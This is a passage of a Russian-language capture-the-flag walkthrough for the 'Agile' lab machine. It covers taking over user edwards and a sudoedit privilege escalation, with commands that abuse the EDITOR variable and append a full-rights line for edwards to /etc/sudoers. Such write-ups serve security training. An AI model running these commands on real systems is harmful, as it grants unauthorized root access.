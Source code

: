 Нажимаем на кнопку inspect и попадаем на сайт, но уже под другим пользователем.

![](../assets/Agile/13.png)

Получаем пароль пользователя edwards. Меняем пользователя на edwards.

![](../assets/Agile/14.png)

<a name="sudoedit"></a>

## Sudoedit(privesc)

Проверим права на выполнение команд: **sudo -L**.

![](../assets/Agile/15.png)

В данной [статье](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/) мы можем найти как эксплуатировать данную уязвимость.

Нам нужен файл активации, который мы можем найти в **/app/venv/bin/activate**

```
export EDITOR="nano -- /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
```

Записываем строку для получения доступа ко всем командам в данный файл.

```
echo "edwards ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

![](../assets/Agile/16.png)

